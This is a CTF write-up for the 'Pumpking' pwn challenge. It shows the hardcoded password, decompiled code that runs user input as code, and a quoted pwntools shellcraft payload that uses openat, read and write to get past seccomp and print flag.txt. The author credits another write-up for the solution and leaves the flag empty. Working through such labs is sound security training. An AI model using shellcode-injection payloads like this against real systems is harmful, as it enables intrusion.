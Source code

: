 # Pumpking

## The Problem

Rating: easy

Flavor Text:
```
Long live the King! Pumpking is the king of our hometown and this time of the year, he makes wishes come true! But, you must be naughty in order to get a wish.. He is like reverse Santa Claus and way cooler!
```

Attachments : [pwn_pumpking.zip](./pwn_pumpking.zip)



## Solution

https://github.com/D13David/ctf-writeups/blob/main/hacktheboo22/Day%203/pumpking/README.md



step one get past the entry password

string pumpking nets you:
pumpk1ngRulez

open it up on binaryninja to confirm:
```
  iVar1 = strncmp((char *)&local_1f,"pumpk1ngRulez",0xd);
  if (iVar1 == 0) {
    king();
  }
```
pumpk1ngRulez is the password input

next it looks to read in input and execute it?


```
  write(1,
        "\n[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true!  Wish for everything, even for tha flag!\n\n>> "
        ,0x88);
  local_a8 = 0;
  local_a0 = 0;
  local_98 = 0;
  local_90 = 0;
  local_88 = 0;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_14 = 0;
  read(0,&input,0x95);
  (*(code *)&input)();
```
I spent a good while trying various shell code inputs but they dont seem to work. 


Post event [writeups](https://github.com/D13David/ctf-writeups/blob/main/hacktheboo22/Day%203/pumpking/README.md) revealed the secomp rules are limiting the syscalls to a few particular calls. 

I had tryed shell codes and those fail for good reason. but the printing of the flag.txt file looks to have failed because the open didnt work. the proper sollution seems to be openat not open

one interesting way to get to this is using shellcraft to generate the payload?

from: https://github.com/D13David/ctf-writeups/blob/main/hacktheboo22/Day%203/pumpking/README.md
```
payload = shellcraft.openat(-100, "flag.txt") # handler value -100 opens file relative to executable
payload += shellcraft.read('rax', 'rsp', 50)
payload += shellcraft.write(1, 'rsp', 50)
payload += shellcraft.exit(0)
p.sendlineafter(b">> ", asm(payload))
p.interactive()
```


## Flag
```

```

## Final Notes
